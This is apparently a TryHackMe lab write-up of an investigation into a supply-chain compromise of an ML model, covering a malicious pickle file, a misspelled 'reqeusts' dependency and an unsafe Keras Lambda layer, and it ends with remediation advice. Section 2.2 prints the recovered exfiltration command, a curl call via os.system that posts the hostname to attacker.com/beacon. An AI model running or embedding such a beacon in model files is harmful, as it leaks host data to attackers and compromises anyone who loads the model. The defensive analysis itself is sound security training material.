







# TryHackMe Challenge - Payload: Investigating a Compromised ML Model and Supply Chain

## 1\. Overview

In this AI security challenge, I investigated a suspected supply-chain compromise involving a production machine learning model.

The scenario involved an ML inference server generating unexpected outbound HTTPS traffic to an unrecognized external destination. The SOC alert indicated that the traffic had been blocked, prompting an investigation into the production model, its deployment history, and a candidate replacement awaiting deployment.

The objective was to establish a timeline, identify suspicious behavior in the production model, examine its dependencies, and assess whether the replacement model was safe to deploy.

This exercise introduced several AI/ML security concepts, particularly the risks associated with serialized models, untrusted model repositories, dependency supply-chain attacks, and unsafe model architectures.

**Environment:** TryHackMe investigation workstation  
**Primary tools:** `pickletools`, `safe_analysis.py`, `sha256sum`, `pip-audit`, `inspect_h5_model.py`, and `modelscan`

## 2\. Investigation

### 2.1 Establishing the timeline

I started by examining the deployment and network logs to understand when the model was introduced and when the suspicious activity began.

The deployment logs showed the following:

| Date and time | Event |
| --- | --- |
| Jan 5, 2024 09:15 | Original `code-review-bert` v1.0.0 model pulled from Hugging Face and deployed |
| Jan 26, 2024 14:32 | Model update requested by an ML engineer |
| Jan 26, 2024 14:32 | New source organization, `trustworthy-ai-lab`, detected |
| Jan 26, 2024 14:32 | `production_model.pkl` loaded and deployed |
| Feb 16, 2024 03:01 | Outbound HTTPS communication to `attacker.com` begins |
| Feb 16, 2024 03:13 | Outbound connection blocked and beacon activity captured |
| Feb 16, 2024 03:14 | SOC alert generated and incident created |

The original model came from `verified-ml-team`, while the replacement came from a different organization, `trustworthy-ai-lab`.

The new organization triggered a warning during the January 26 update, but the model was nevertheless deployed.

Approximately 21 days later, the inference server began communicating with an external destination.

The network logs showed repeated HTTPS connections from `10.0.1.50` to `185.234.72.19`, resolving to `attacker.com`.

The beacon capture provided additional context:

- HTTP method: POST
- Endpoint: `/beacon`
- Destination: `attacker.com`
- Payload included the hostname `ml-server-prod-01`

This correlated the suspicious outbound traffic with the activity recorded in the deployment and network logs.

### 2.2 Examining the production model

I moved on to comparing the original model with the production model.

One of the first things I noticed was the substantial difference in file sizes:

| Model | Approximate size |
| --- | ---: |
| `original_model.pkl` | 3.7 KB |
| `production_model.pkl` | 4.1 MB |

The size difference was unusual, although it wasn't sufficient by itself to establish malicious activity.

I also used the Linux `file` command to examine both files. They were identified as generic data files, which didn't provide enough information to distinguish their contents or establish whether either file was malicious.

```bash
analyst@tryhackme-2204:/opt/supply-chain/incident$ file models/original_model.pkl models/production_model.pkl 
models/original_model.pkl:   data
models/production_model.pkl: data
```

#### Analyzing the Pickle files

I used `pickletools` to disassemble the original and production pickle files:

```bash
python3 -m pickletools models/original_model.pkl
python3 -m pickletools models/production_model.pkl
```

The original model provided a baseline for comparison.



The production model contained suspicious operations, including:

- `os.system`
- A `curl` command targeting `http://attacker.com/beacon`



The command was structured to send the host's identity using:

```bash
curl "http://attacker.com/beacon" -d "host=$(hostname)"
```

The use of `os.system` allows execution of operating-system commands. In the context of Python pickle deserialization, callable objects can be invoked through pickle operations such as `REDUCE`.

The presence of a shell command making an external request was not expected model behavior. More importantly, the destination matched the external domain observed in the network logs and the SOC alert.

I then used the provided safe analysis script:

```bash
python3 /opt/supply-chain/tools/safe_analysis.py models/production_model.pkl
```


The script identified dangerous pickle operations involving `os.system` and the suspicious `curl` command. It returned an `UNSAFE` verdict.

The combination of the static analysis findings and the correlated network activity provided strong evidence that the production model contained malicious functionality.

**Finding:** The production model was unsafe and should not remain in service.


### 2.3 Examining suspicious dependencies

Next, I reviewed the project's `requirements.txt` file. 

```text
analyst@tryhackme-2204:/opt/supply-chain/incident$ cat project/requirements.txt 
torch==2.1.0
transformers==4.35.0
numpy==1.24.3
reqeusts==2.31.0
safetensors==0.4.0
accelerate==0.24.0
```

`reqeusts==2.31.0` immediately stood out. The package name appeared to be a misspelling of the widely used Python `requests` library. This raised the possibility of a typosquatting attack.

Typosquatting involves publishing a package with a name similar to a legitimate package, hoping that developers will install the wrong dependency due to a spelling mistake. If the misspelled package is malicious and gets installed, it could introduce malicious code into the development or production environment.

I identified this as a suspicious dependency that required further verification. I did not establish whether the misspelled package was actually published or installed in this environment.

#### Checking known vulnerabilities

I also ran `pip-audit` against the dependency requirements:

```bash
pip-audit -r project/requirements.txt 2>&1
```



The tool reported 37 known vulnerability findings in its output, including affected versions of packages such as:

- PyTorch 2.1.0
- Transformers 4.35.0
- Pillow 9.2.0

The output included Pillow even though it was not listed in the requirements file. Its dependency source would need to be verified.

The results identified outdated or vulnerable software that required remediation. It is important to distinguish this from the malicious model finding. Known vulnerabilities do not, by themselves, establish that a dependency was exploited during this incident.

### 2.4 Evaluating the candidate replacement model

The final part of the exercise was to assess the candidate replacement before the engineering team deployed it.

The candidate was: `models/candidate_model.h5`.

I first reviewed the supplied checksum file:

```text
analyst@tryhackme-2204:/opt/supply-chain/incident$ cat checksums/expected_hashes.json 
{
  "original_model.pkl": "793bb2f5bfdf4a1ceb448647885ade7909480a05dc12479c508e7c7f28d29077",
  "original_model.safetensors": "46329f0c011e4d59d588fef1370c0e81ebba132841b7d8d4e2c476d19a150635"
```

It contained expected hashes for: `original_model.pkl` and `original_model.safetensors`

I verified the corresponding files using:

```bash
sha256sum models/original_model.pkl models/original_model.safetensors
```



The hashes matched the supplied baseline. This provided an integrity check for the original model files. It did not establish the integrity of the candidate replacement.

#### Inspecting the candidate model architecture

I ran the provided architecture inspection tool:

```bash
python3 /opt/supply-chain/tools/inspect_h5_model.py models/candidate_model.h5
```



The output identified five layers, including:

```text
[WARNING] Lambda
           manipulate_output
```

The tool indicated that the Lambda layer could contain arbitrary Python code that executes during inference.

I then scanned the model with ModelScan:

```bash
modelscan -p models/candidate_model.h5
```



ModelScan reported one medium-severity issue involving the use of an unsafe Lambda operator from the Keras module. This corroborated the architecture inspection warning.

I have limited experience analyzing Keras Lambda layers, so I relied on the supplied inspection tools and their findings. A Lambda layer is not automatically malicious. However, a layer capable of executing arbitrary code requires investigation before the model is trusted.

**Recommendation:** Do not deploy `candidate_model.h5` until the `manipulate_output` function and its behavior have been independently reviewed and approved.

## 3\. Findings

The investigation identified several security concerns.

### Production model compromise

- Static analysis of `production_model.pkl` revealed an `os.system` call executing a `curl` command to an external beacon endpoint.
- The `attacker.com` destination correlated with the suspicious outbound HTTPS traffic recorded in the network logs.
- This provided strong evidence that the production model contained malicious functionality.

### Dependency supply-chain concerns

- The dependency manifest contained a misspelled package name: `reqeusts==2.31.0` raising a potential typosquatting concern requiring verification.
- Additionally, `pip-audit` identified known vulnerabilities in the dependency environment. These findings require remediation and further dependency review.

**Dependency Investigation Limitations**

- The dependency audit reported 37 vulnerabilities across identified packages, including PyTorch, Transformers, and Pillow.
- The installed package inventory showed Pillow 12.1.1, whereas the audit identified a vulnerability associated with Pillow 9.2.0. The reason for this discrepancy could not be established within the available environment.
- The requirements file also contained the misspelled package name `reqeusts` instead of `requests`. A lookup against the PyPI JSON endpoint returned HTTP 404. However, the TryHackMe environment had no internet access, preventing further verification through the package registry or examination of the package's source.

These observations raised dependency integrity concerns, but did not establish that a malicious dependency was installed or that the typo represented a typosquatting attempt. Further investigation would require access to the original deployment environment, its dependency manifests and lockfiles, installed package inventory, and package registry information.

### Model repository concerns

- The deployment logs showed that the production model `code-review-bert-v2` update came from a different organization (`trustworthy-ai-lab`) than the original model source.
- The new organization triggered a warning in the logs, but the model was deployed anyway. The change in source organization should have prompted additional verification before deployment.
- The available evidence establishes a change in model provenance, but does not independently establish that the organization was fraudulent.

### Candidate model architecture concerns

- The replacement model contained a Lambda layer flagged by both architecture inspection and ModelScan.
- The function requires further examination before the model can be approved for production use.

## 4\. Recommendations

Based on the findings, I would recommend the following actions:

1.  **Remove the compromised model from production.** Preserve a forensic copy and associated evidence before replacement or remediation.
2.  **Investigate the external communication.** Review network and endpoint telemetry to determine whether any additional activity occurred beyond the observed beacon attempts.
3.  **Review model provenance.** Verify the source organization, repository history, model version, and integrity of model artifacts before future deployment. Attackers use naming techniques to appear trustworthy. A quick check in the repo will likely reveal a suspicious organization has no verification badge, no history and very few downloads.
4.  **Investigate the suspicious dependency.** Determine whether `reqeusts` is a published package and whether it was installed or executed.
5.  **Remediate vulnerable dependencies.** Review the `pip-audit` findings, verify the affected package versions, and update them to supported versions.
6.  **Hold the candidate model from deployment.** Investigate the `manipulate_output` Lambda layer and validate its behavior before approval.
7.  **Improve model deployment controls.** Require model provenance verification, artifact integrity checks, dependency review, and security scanning before production deployment.
8.  **Use safer model serialization formats.** Whenever possible, prefer model formats designed to avoid arbitrary code execution during loading, such as Safetensors, over pickle-based formats. Pickle deserialization can execute arbitrary code, making untrusted model files a potential code execution vector. Safetensors avoids this particular risk by using a data-only serialization format. While Safetensors significantly reduces the risks associated with pickle deserialization, it does not guarantee that a model is free from malicious behavior or other security vulnerabilities. Continue to verify model provenance, integrity, and behavior before deploying it.
9.  **Improve detection and alerting.** Review the warning mechanism triggered when a model is loaded from an unrecognized or untrusted source. If technically feasible, strengthen the control so that suspicious models are blocked or quarantined pending verification rather than merely generating a warning. At a minimum, ensure these warnings generate actionable alerts and are forwarded to the appropriate monitoring or security team. During the investigation, the warning appeared in the logs, but there was no apparent notification or escalation mechanism to ensure it received attention.

 

## 5\. Limitations and Further Investigation

This exercise provided several useful indicators, but there were areas I did not independently validate.

- I identified the suspicious pickle operations and relied on the provided safe analysis script to confirm the unsafe behavior. I did not execute the model.
- I identified a potentially typosquatted dependency but could not verify whether the package had been installed.
- I relied on the supplied tools to identify the candidate model's unsafe Lambda layer. I did not independently inspect or execute the `manipulate_output` function.
- The supplied expected hashes covered the original model artifacts, not the candidate replacement.
- The available network and beacon logs provided evidence of suspicious outbound communication, but did not establish the full extent of any data exposure or compromise.

These limitations would need to be addressed in a real incident investigation.

## 6\. Key Takeaways

This challenge introduced me to several AI/ML-specific security risks and reinforced the importance of applying traditional security investigation techniques to AI systems.

A few lessons stood out:

- **Serialized models are executable attack surfaces.** Loading an untrusted pickle file can execute code during deserialization. Model files should not automatically be treated as passive data.
- **Model provenance matters.** A change in repository or publisher should trigger verification rather than being treated as a routine update.
- **Dependencies are part of the supply chain.** Misspelled package names and outdated dependencies can introduce additional risks.
- **Model architecture requires security review.** Custom layers and Lambda functions may introduce executable behavior that needs to be understood before deployment.
- **Security tools support analysis, but their findings still require interpretation.** A warning is a reason to investigate, not automatic proof of maliciousness.

The most important lesson for me was that securing AI systems involves more than protecting the model's inputs and outputs. The model artifact, its source, dependencies, serialization format, architecture, and deployment process are all part of the attack surface.
